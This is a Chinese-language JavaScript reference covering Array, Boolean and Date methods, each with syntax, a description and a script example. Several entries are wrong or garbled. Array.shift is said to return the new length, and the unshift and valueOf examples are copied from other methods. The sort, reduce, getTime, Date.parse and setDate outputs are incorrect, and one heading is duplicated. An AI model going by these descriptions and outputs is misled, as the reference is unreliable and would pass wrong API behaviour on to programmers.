</script>
```

## Array.concat(element0, ..., elementN)

**标准:** JavaScript 1.2+, JScript 3.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法
`var myOutputArray = myArrayInstance.concat(value1, value2, ..., valueN);`

### 描述
合并一个数组与另一个数组。不修改原始数组。

### 示例
```html
<script type="text/javascript">
var array1 = new Array("one", "two", "three", "four");
var array2 = new Array("apple", "tree", "cow");
// 这将合并数组
var myFinalArray = array1.concat(array2);
// 现在 myFinalArray 看起来像: one,two,three,four,apple,tree,cow
document.write(myFinalArray.join());
</script>
```

## Array.every(callback)

**标准:** JavaScript 1.6+
**支持:** Google Chrome Beta+, Firefox 1.5 (Gecko 1.8)+, Safari 3.0+

### 语法
`var boolPassed = myArrayInstance.every(callbackFn);`

### 描述
测试数组中的所有项是否通过由提供的函数执行的测试（返回 true 或 false）。

### 示例
```html
<script type="text/javascript">
var myShortArray = new Array("one", "two", 'cat');
var myLongArray = new Array("house", 'three', 'forest');
function isLongEnough(element, index) {
    return (element.length > 3);
}
document.write(myShortArray.every(isLongEnough)); // 输出 false
document.write(myLongArray.every(isLongEnough)); // 输出 true
</script>
```

## Array.filter(callback)

**标准:** JavaScript 1.6+
**支持:** Google Chrome Beta+, Firefox 1.5 (Gecko 1.8)+, Safari 3.0+

### 语法
`var myNewArray = myArrayInstance.filter(callback);`

### 描述
返回一个通过回调函数测试的所有元素的数组。

### 示例
```html
<script type="text/javascript">
var myArray = new Array("one", "two", "three", "four", "one", "two", 'three', "four");
// 创建一个用于过滤数组的函数
function isLonger(element, index) {
    return (element.length > 3);
}
var filtered = myArray.filter(isLonger);
document.write(filtered.join()); // three,four
</script>
```

## Array.forEach(callback)

**标准:** JavaScript 1.6+
**支持:** Google Chrome Beta+, Firefox 1.5 (Gecko 1.8)+, Safari 3.0+

### 语法
`myArrayInstance.forEach(callbackFn);`

### 描述
遍历数组，为每个项执行提供的函数。

### 示例
```html
<script type="text/javascript">
var myArrayInstance = new Array("one", "two", "three", "four", "one");
function writeItOut(element, index, array) {
    document.write(index + " is " + element + "<br />");
}
myArrayInstance.forEach(writeItOut);
// 输出:
//0 is one
//1 is two
//2 is three
//3 is four
//4 is one
</script>
```

## Array.indexOf()

**标准:** JavaScript 1.6+
**支持:** Google Chrome Beta+, Firefox 1.5 (Gecko 1.8)+, Safari 3.0+

### 语法
`var myIndexInt = myArrayInstance.indexOf(searchElement[, fromIndex]);`
`myIndexInt = myArrayInstance.indexOf(searchElement);`

### 描述
在数组中搜索元素的第一次。如果找到返回索引，未找到返回 -1。

### 示例
```html
<script type="text/javascript">
// 首先创建一个带有重复元素的数组
var myArrayInstance = new Array("one", "two", "three", "four", "one", "two", 'three', "four");
document.write(myArrayInstance.indexOf("two") + "<br />"); // 返回 "1"
document.write(myArrayInstance.indexOf("two", 2) + "<br />"); // 返回 "5"
</script>
```

## Array.join(separator)

**标准:** JavaScript 1.1+, JScript 3.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

### 语法
`var myString = myArrayInstance.join(",")`

### 描述
将所有数组元素连接成一个分隔的字符串。

### 示例
```javascript
<script type="text/javascript">
var myArrayInstance = new Array("one", "two", "three", "four");
// 这将使用每个值之间的分隔字符串来连接数组
var myString = myArrayInstance.join("oO0Oo");
// 输出 "oneoO0OotwooO0OothreeoO0Oofour"
document.write(myString);
</script>
```

## Array.lastIndexOf(searchElement [, fromIndex])

**标准:** JavaScript 1.6+
**支持:** Google Chrome Beta+, Firefox 1.5 (Gecko 1.8)+, Safari 3.0+

### 语法
```javascript
var myIndexInt = myArrayInstance.lastIndexOf(searchElement[, fromIndex])
myIndexInt = myArrayInstance.lastIndexOf(searchElement)
```

### 描述
在数组中搜索元素的最后一个实例。如果找到，则返回索引；如果没有找到则返回 -1。

### 示例
```javascript
<script type="text/javascript">
// 首先创建一个包含一些重复元素的数组
var myArrayInstance = new Array("one", "two", "three", "four", "one", "two", "three", "four");
document.write(myArrayInstance.lastIndexOf("two") + "<br />"); // 返回 "5"
document.write(myArrayInstance.lastIndexOf("two", 2) + "<br />"); // 返回 "1"
</script>
```

## Array.map(callback [, thisObject])

**标准:** JavaScript 1.6+
**支持:** Google Chrome Beta+, Firefox 1.5 (Gecko 1.8)+, Safari 1.0+

### 语法
```javascript
var myMappedArray = myArrayInstance.map(callbackFn [, thisObject])
```

### 描述
返回一个新数组，其元素是通过对父数组中的每个条目调用函数得到的结果。

### 示例
```javascript
<script type="text/javascript">
var array1 = new Array("one", "cartoon", "yah", "citywide", "cat");
var array2 = new Array("house", "two", "three", "yup", "forest");
function isLongEnough(element, index, array) {
  return (element.length > 3);
}
document.write(array1.map(isLongEnough).join(",") + "<br />");
// 输出 false,true,false,true,false
document.write(array2.map(isLongEnough).join(",") + "<br />");
// 输出 true,false,true,false,true
</script>
```

## Array.pop()

**标准:** JavaScript 1.2+, JScript 3.0+, ECMAScript 3.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法
```javascript
myArrayInstance.pop()
```

### 描述
返回数组中的最后一个项，并在此过程中移除。

### 示例
```javascript
<script type="text/javascript">
var myArray = new Array("house", "tree", "bark", "cow");
// 这会将数组（不包含最后一个元素）写入 poppedArray
var poppedVal = myArray.pop();
// 现在 poppedVal 等于 'cow'
// 这将输出：house,tree,bark
document.write(myArray.join(","));
</script>
```

## Array.push()

**标准:** JavaScript 1.2+, JScript 3.0+, ECMAScript 3.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
myArrayInstance.push(val1, val2, .. )
```

### 描述
向数组添加一个或多个元素，并返回数组的最终长度。

### 示例
```javascript
<script type="text/javascript">
var myArray = new Array("house", "tree", "bark", "cow");
// 这将向数组添加两个元素
myArray.push('car', 'bicycle');
// 这将输出：house,tree,bark,cow,car,bicycle
document.write(myArray.join(","));
</script>
```

## Array.reduce(callback [, initialValue])

**标准:** JavaScript 1.8+
**支持:** Firefox 3.0 (Gecko 1.9)+

### 语法
```javascript
var resultString = myArrayInstance.reduce(callbackFn [, initialValue])
```

### 描述
对数组中的两个项目同时执行一个函数（从左到右移动）。

### 示例
```javascript
<script type="text/javascript">
var array1 = new Array("one", "cartoon", "yah", "citywide", "cat");
function combineWords(previousValue, currentValue, index, array) {
  return (previousValue + currentValue + ',');
}
document.write(array1.reduce(combineWords));
// 输出 one,cartoon,yah,citywide,cat
</script>
```

## Array.reduceRight(callback [, initialValue])

**标准:** JavaScript 1.8+
**支持:** Firefox 3.0 (Gecko 1.9)+

### 语法
```javascript
var resultString = myArrayInstance.reduceRight(callbackFn [, initialValue])
```

### 描述
对数组中的两个项目同时执行一个函数（从右到左移动）。

### 示例
```javascript
<script type="text/javascript">
var array1 = new Array("one", "cartoon", "yah", "citywide", "cat");
function combineWords(previousValue, currentValue, index, array) {
  return (previousValue + currentValue + ',');
}
document.write(array1.reduceRight(combineWords));
// 输出 cat,citywide,yah,cartoon,one
</script>
```

## Array.reverse()

**标准:** JavaScript 1.1+, JScript 3.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
myArrayInstance.reverse()
```

### 描述
反转数组顺序。

### 示例
```javascript
<script type="text/javascript">
var myArray = new Array("one", "two", "three", "four");
// 这将翻转元素的顺序
myArray.reverse()
// 这将输出：four,three,two,one
document.write(myArray.join(","));
</script>
```

## Array.shift()

**标准:** JavaScript 1.1+, JScript 3.0+, ECMAScript 3.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法
```javascript
myArrayInstance.shift()
```

### 描述
从数组中删除第一个项，并返回数组的新长度。

### 示例
```javascript
<script type="text/javascript">
var myArray = new Array("one", "two", "three", "four");
// 这将删除数组的第一个元素并放入 myEl
var myEl = myArray.shift()
// 现在 myArray 像：two,three,four
document.write(myArray.join(","));
</script>
```

## Array.slice(beginIndex [,endIndex])

**标准:** JavaScript 1.2+, JScript 3.0+, ECMAScript 3.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
var myNewArray = myArrayInstance.slice(2)
myNewArray = myArrayInstance.slice(2,3)
```

### 描述
复制数组的一部分并返回新数组。不改变原始数组。当使用两个参数时，第二个参数必须大于第一个参数才能返回结果。

### 示例
```javascript
<script type="text/javascript">
var myArrayInstance = new Array("one", "two", "three", "four");
// 这将使用值分隔字符串连接数组
var myNewArray = myArrayInstance.slice(2);
document.write(myNewArray.join(",") + "<br />"); // three,four
myNewArray = myArrayInstance.slice(1,2);
document.write(myNewArray.join(",") + "<br />"); // two
</script>
```

## Array.some(callback [, thisObject])

**标准:** JavaScript 1.6+
**支持:** Google Chrome Beta+, Firefox 1.5 (Gecko 1.8)+, Safari 1.0+

### 语法
```javascript
var myBoolResult = myArrayInstance.some(function)
```

### 描述
如果数组中至少有一个元素通过传递给它的函数，则返回 true。

### 示例
```javascript
<script type="text/javascript">
var array1 = new Array("one", "cartoon", "yah", "citywide", "cat");
var array2 = new Array("yah", "two", "cat", "yup", "hut");
function isLongEnough(element, index, array) {
  return (element.length > 3);
}
document.write(array1.some(isLongEnough) + "<br />");
// 输出 true
document.write(array2.some(isLongEnough) + "<br />");
// 输出 false
</script>
```

## Array.sort()

**标准:** JavaScript 1.1+, JScript 3.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 4.0+, Safari 1.0+

### 语法
```javascript
myArrayInstance.sort()
myArrayInstance.sort(function)
```

### 描述
通过一次传递两个元素给自定义函数对数组进行排序。

### 示例
```javascript
<script type="text/javascript">
var myArray = new Array("cable", "zebra", "apple", "dart", "bow", 29, "elephant");
// 调用 sort，所有项目将按字母顺序排序，“29" 位于开头
myArray.sort();
// 我们也可以向它传递一个函数来执行自定义排序算法。在这种情况下，按长度
function customSortbyLength(item1, item2) {
    // 如果顺序正确，我们返回 1
    // 如果顺序错误，返回 -1
    // 如果它们相等，返回 0
    // 首先我们确保它们是字符串
    item1 = item1.toString();
    item2 = item2.toString();
    if (item1.length == item2.length)
        return 0;
    if (item1.length < item2.length)
        return -1;
    if (item1.length > item2.length)
        return 1;
}
// 调用 sort，所有项目将通过此函数排序
myArray.sort(customSortbyLength);
// 现在 myArray 看起来像：two,three,four
document.write(myArray.join(','));
</script>
```

## Array.splice(index, deleteCount, [element0, . . . , elementN])

**标准:** JavaScript 1.2+, JScript 3.0+, ECMAScript 3.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
myArrayInstance.splice(start, deleteCount)
myArrayInstance.splice(start, deleteCount, [obj1[, obj2[, ... [,objN]]]])
```

### 描述
移除项目并可选地在原有位置插入新项目。splice 返回被删除的元素。

### 示例
```javascript
<script type="text/javascript">
var myArray = new Array("one", "two", "three", "four", "five", "six", "seven");
// 剪掉两个项目
var cutItems = myArray.splice(2,3); // one,two,six,seven
document.write(cutItems.join(',') + "<br />"); // 输出 three,four,five
// 剪出项目 "two" 并再插入两个
myArray.splice(1,1,"apple", "tree");
document.write(myArray.join(',') + "<br />"); // 输出 one,apple,tree,six,seven
</script>
```

## Array.toLocaleString()

**标准:** JScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 4.0+, Opera 5.0+, Safari 1.0+

### 语法
```javascript
myArrayInstance.toLocaleString()
```

### 描述
返回一个表示对象的字符串。此函数旨在为了本地化目的而被重写。

### 示例
```javascript
<script type="text/javascript">
var array1 = new Array("one", "cartoon", "yah", "citywide", "cat");
document.write(array1.toLocaleString());
// 输出 one,cartoon,yah,citywide,cat
</script>
```

## Array.toSource()

**标准:** JavaScript 1.3+, ECMAScript 1.0+
**支持:** Firefox 1.0 (Gecko 1.7)+, Netscape Navigator 6.0 (Gecko 0.6)+

### 语法
```javascript
myArrayInstance.toSource()
```

### 描述
返回一个表示对象源代码的字符串。

### 示例
```javascript
<script type="text/javascript">
var myArrayInstance = new Array("one", "two", "three", "four");
document.write(myArrayInstance.toSource()); // ["one", "two", "three", "four"]
</script>
```

## Array.toString()

**标准:** JavaScript 1.1+, JScript 3.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 4.0+, Safari 1.0+

### 语法
```javascript
myArrayInstance.toString()
```

### 描述
返回一个总结对象的字符串。

### 示例
```javascript
<script type="text/javascript">
var myArrayInstance = new Array("one", "two", "three", "four");
document.write(myArrayInstance.toString()); // one,two,three,four
</script>
```

## Array.unshift()

**标准:** JavaScript 1.2+, JScript 3.0+, ECMAScript 3.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

### 语法
```javascript
myArrayInstance.unshift(element1, ..., elementN)
```

### 描述
将多个元素添加到数组的开头，返回数组的新长度。

### 示例
```javascript
<script type="text/javascript">
var myArray = new Array("one", "two", "three", "four", "five", "six", "seven");
// 剪掉两个项目
var cutItems = myArray.splice(2,3); // one,two,six,seven
document.write(cutItems.join(',') + "<br />"); // 输出 three,four,five
// 剪出项目 "two" 并再插入两个
myArray.splice(1,1,"apple", "tree");
document.write(myArray.join(',') + "<br />"); // 输出 one,apple,tree,six,seven
</script>
```

## Array.valueOf()

**标准:** JavaScript 1.1+, JScript 3.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 4.0+, Safari 1.0+

### 语法
```javascript
myArrayInstance.valueOf()
```

### 描述
返回对象的原始值。

### 示例
```javascript
<script type="text/javascript">
var myArrayInstance = new Array("one", "two", "three", "four");
document.write(myArrayInstance.toString()); // one,two,three,four
</script>
```

# Boolean

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 4.0+, Opera 5.0+, Safari 1.0+

## 语法
```javascript
var myBoolean = new Boolean(value)
```

### 描述
创建一个带有指定值的 Boolean 对象。

### 示例
```javascript
<script type="text/javascript">
var myBoolean = new Boolean(true);
</script>
```

## Boolean.toString()

**标准:** JavaScript 1.1+, JScript 3.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 4.0+, Safari 1.0+

### 语法
```javascript
myBoolean.toString()
```

### 描述
返回一个表示 Boolean 对象的字符串。

### 示例
```javascript
<script type="text/javascript">
var myBoolean = new Boolean(true);
document.write(myBoolean.toString());
</script>
```

## Boolean.valueOf()

**标准:** JavaScript 1.1+, JScript 3.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 4.0+, Safari 1.0+

### 语法
```javascript
myBoolean.valueOf()
```

### 描述
返回 Boolean 对象的原始值。

### 示例
```javascript
<script type="text/javascript">
var myBoolean = new Boolean(true);
document.write(myBoolean.valueOf());
</script>
```

## Boolean.toJSON()

**标准:** JavaScript 5.0+
**支持:** Firefox 3.5+

### 语法
```javascript
myBoolean.toJSON()
```

### 描述
返回 Boolean 对象的 JSON 表示法。

### 示例
```javascript
<script type="text/javascript">
var myBoolean = new Boolean(true);
document.write(myBoolean.toJSON());
</script>
```

## Boolean.toSource()

**标准:** JavaScript 1.3+, ECMAScript 1.0+
**支持:** Firefox 1.0 (Gecko 1.7)+, Netscape Navigator 6.0 (Gecko 0.6)+

### 语法
```javascript
myBoolean.toSource()
```

### 描述
返回一个表示 Boolean 对象源代码的字符串。

### 示例
```javascript
<script type="text/javascript">
var myBoolean = new Boolean(true);
document.write(myBoolean.toSource());
</script>
```

# Date

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+
**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 4.0+, Opera 5.0+, Safari 1.0+

## 语法
```javascript
var myDate = new Date()
myDate = new Date(totalmilliseconds)
myDate = new Date(string)
myDate = new Date(year, month, day [, hour, minute, second, millisecond ])
```

## 描述
一个描述本地化日期和时间的对象，并提供处理这些值的方法。

**属性列表**

**方法列表**

## 示例
```javascript
<script type="text/javascript">
// 使用所有可用属性创建日期
var date1 = new Date(2008, 6, 26, 20, 4, 3, 35);
// 使用毫秒属性创建日期
var date2 = new Date(3432846);
// 使用字符串创建日期
var date3 = new Date(date1.toString());
// 输出我们所有的日期
document.write(date1.toString() + "<br />");
document.write(date2.toString() + "<br />");
document.write(date3.toString() + "<br />");
// 结果：
//Sat Jul 26 2008 20:04:03 GMT-0700 (PDT)
//Wed Dec 31 1969 16:57:12 GMT-0800 (PST)
//Sat Jul 26 2008 20:04:03 GMT-0700 (PDT)
</script>
```

## Date.getDate()

**标准:** JavaScript 1.1+, JScript 1.0+, ECMAScript 1.0+


# Date.getDate()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateObject.getDate()`

### 描述

返回日期中的月份几号。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1);
document.write( aprilFools.getDate() ); // 1
</script>
```

# Date.getDay()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateObject.getDay()`

### 描述

返回指定日期的星期几。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1);
document.write( aprilFools.getDay() ); // 4
</script>
```

# Date.getFullYear()

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateObject.getFullYear()`

### 描述

返回指定日期的年份。兼容 Y2K（4 位数字）。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1);
document.write( aprilFools.getFullYear() ); // 2008
</script>
```

# Date.getHours()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateObject.getHours()`

### 描述

返回指定日期的小时。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
document.write( aprilFools.getHours() ); // 16
</script>
```

# Date.getMilliseconds()

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 5.0+, Safari 1.0+

### 语法

`myDateObject.getMilliseconds()`

### 描述

返回指定日期的毫秒。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
document.write( aprilFools.getMilliseconds() ); // 9
</script>
```

# Date.getMinutes()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateObject.getMinutes()`

### 描述

返回指定日期的分钟。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
document.write( aprilFools.getMinutes() ); // 25
</script>
```

# Date.getMonth()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateObject.getMonth()`

### 描述

返回指定日期的月份。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
document.write( aprilFools.getMonth() ); // 4
</script>
```

# Date.getSeconds()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateObject.getSeconds()`

### 描述

返回指定日期的秒。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
document.write( aprilFools.getSeconds() ); // 13
</script>
```

# Date.getTime()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateObject.getTime()`

### 描述

返回从 1970 年 1 月 1 日 00:00:00 UTC 到指定日期的毫秒数。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
document.write( aprilFools.getTime() ); // 12096843109
</script>
```

# Date.getTimezoneOffset()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateObject.getTimezoneOffset()`

### 描述

返回当前本地区的时区偏移（分钟）。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
var someOtherDay = new Date(2004, 4, 9, 31, 31, 41, 6);
document.write( aprilFools.getTimezoneOffset() + "<br />" ); // 在此本地下都是 420
document.write( someOtherDay.getTimezoneOffset() ); // 420
</script>
```

# Date.getUTCDate()

**标准:** JavaScript 1.2+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateObject.getUTCDate()`

### 描述

根据协调世界时间 (UTC) 返回指定日期的月份几。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
document.write( aprilFools.getUTCDate() ); // 1
</script>
```

# Date.getUTCDay()

**标准:** JavaScript 1.2+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 4.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateObject.getUTCDay()`

### 描述

根据协调世界时间 (UTC) 返回指定日期的星期几。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
document.write( aprilFools.getUTCDay() ); // 4
</script>
```

# Date.getUTCFullYear()

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateObject.getUTCFullYear()`

### 描述

根据协调世界时间 (UTC) 返回指定日期的年份。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
document.write( aprilFools.getUTCFullYear() ); // 2008
</script>
```

# Date.getUTCHours()

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateObject.getUTCHours()`

### 描述

根据协调时间 (UTC) 返回指定日期的小时。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
document.write( aprilFools.getUTCHours() ); // 23
</script>
```

# Date.getUTCMilliseconds()

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateObject.getUTCMilliseconds()`

### 描述

根据协调时间 (UTC) 返回指定日期的毫秒。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
document.write( aprilFools.getUTCMilliseconds() ); // 9
</script>
```

# Date.getUTCMinutes()

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateObject.getUTCMinutes()`

### 描述

根据协调时间 (UTC) 返回指定日期的分钟。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
document.write( aprilFools.getUTCMinutes() ); // 25
</script>
```

# Date.getUTCMonth()

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateObject.getUTCMonth()`

### 描述

根据协调时间 (UTC) 返回指定日期的月份。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
document.write( aprilFools.getUTCMonth() ); // 4
</script>
```

# Date.getUTCSeconds()

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateObject.getUTCSeconds()`

### 描述

根据协调时间 (UTC) 返回指定日期的秒。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
document.write( aprilFools.getUTCSeconds() ); // 13
</script>
```

# Date.getYear()

**标准:** JavaScript 1.0+, JScript 3.0+, ECMAScript 1.0, ECMAScript 2.0

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateObject.getYear()`

### 描述

返回年份减 1900。该方法已弃用，建议使用 `Date.getFullYear()`。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
document.write( aprilFools.getYear() ); // 108
</script>
```

# Date.now()

**标准:** JavaScript 1.5+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Netscape Navigator 8.0 (Gecko 1.7.5)+

### 语法

`var thetimeInMs = Date.now()`

### 描述

返回自 1970 年 1 月 1 日 00:00:00 UTC 来的总毫秒数。

### 示例

```javascript
<script type="text/javascript">
var thetimeInMs = Date.now();
// 在这种情况下，结果将是 1221798434925，尽管对你来说会更晚
document.write(thetimeInMs);
</script>
```

# Date.parse(dateString)

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`var numOfMS = Date.parse(dateString)`

### 描述

解析表示日期的字符串，然后返回从 1970 年 1 月 1 日 00:00:00 UTC 到该日期的毫秒数。

### 示例

```javascript
<script type="text/javascript">
document.write( Date.parse("Sep 9, 2008") ); //122094360000
document.write( Date.parse("Fri, 02 Jan 1970 00:00:00 +0400") ); //10080000
</script>
```

# Date.setDate(dayVal)

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateInstance.setDate(dayVal)`

### 描述

根据本地时间设置月份中的几。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改日期
aprilFools.setDate(23);
// 并输出整个日期
document.write( aprilFools.toString() ); // Fri 23 2008 16:25:13 GMT-0700 (PDT)
</script>
```

# Date.setFullYear(year)

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

